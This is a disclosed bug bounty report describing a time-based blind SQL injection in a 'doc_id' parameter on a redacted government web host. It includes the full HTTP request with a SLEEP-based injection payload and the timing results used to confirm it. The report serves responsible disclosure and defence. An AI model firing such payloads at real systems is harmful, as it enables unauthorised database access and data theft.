 # SQL injection on the https://████/

## Report Details
- **Report ID**: 488795
- **URL**: https://hackerone.com/reports/488795
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-01-30T20:38:01.764Z
- **Disclosed**: 2019-10-04T15:19:20.375Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
Hello. I was able to find Blind SQL injection on the https://███/
Database appears to be MySQL 5.

##POC
```
GET /library.php?path=test&doc_id=1%20AND%20(SELECT%20*%20FROM%20(SELECT(SLEEP(1)))WUeh) HTTP/1.1
Host: ██████
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: en,ru;q=0.9,en-US;q=0.8,uk;q=0.7
Cookie: _ga=GA1.2.1697249984.1548431559


```
By issuing sleep(0) response will be delayed to 0 seconds.
By issuing sleep(1) response will be delayed to 5 seconds.
By issuing sleep(2) response will be delayed to 10 seconds.
By issuing sleep(5) response will be delayed to 25 seconds.

As POC, I retrieved count of databases (3). No other information was accessed (such as tables or data):


Apparently, SQL statement is executing 5 times on the database side, because response time always 5 times bigger than supplied sleep value.

## Impact

SQL injection usually have high-critical impact.

## Attachments
No attachments
